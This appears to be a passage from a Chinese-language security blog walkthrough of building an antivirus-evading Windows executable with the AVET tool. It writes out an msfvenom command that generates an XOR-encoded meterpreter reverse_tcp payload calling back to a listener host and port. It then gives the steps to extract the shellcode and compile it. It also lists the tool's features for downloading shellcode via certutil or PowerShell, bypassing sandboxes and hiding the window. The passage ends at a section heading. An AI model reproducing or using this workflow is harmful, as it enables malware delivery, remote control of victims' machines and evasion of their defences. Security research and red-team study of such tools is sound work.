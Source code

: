 ### 1、通过meterpreter生成payload并保存文件

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.116.142 lport=443 -e x64/xor -f hex --platform Windows > sc.txt
```

文件内容如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-8-15/4-1.png)

### 2、运行format.sh将shellcode从前面的文件提取出来

```
./format.sh sc.txt > scclean.txt
```

提取后的文件内容如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-8-15/4-2.png)

**注：**

个人认为，以上两步可通过一条命令实现：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.116.142 lport=443 -e x64/xor -f hex --platform Windows > sc.txt
```

### 3、运行make_avet，从前面的文件提取shellcode，并设置功能标志位，写入文件defs.h

功能标志位对应make_avet支持的多种功能，可通过执行`./make_avet -h`获得详细说明

具体功能如下：

- 从指定文件读取shellcode并执行
- 从指定文件读取加密的shellcode，解密后执行
- 调用iexplore.exe访问指定url，获得shellcode并执行
- 通过WinAPI调用socket，访问指定url的80端口，获得shellcode并执行
- 通过certutil下载文件，获得shellcode并执行
- 通过powershell下载文件，获得shellcode并执行
- 使用WinAPI fopen绕过沙盒
- 使用WinAPI gethostbyname绕过沙盒
- 编译成64位
- 隐藏程序窗口

### 4、使用gcc编译avet.c，生成最终文件

avet.c为主体程序，从头文件defs.h读取shellcode和功能标志位


## 0x05 技术细节分析
---
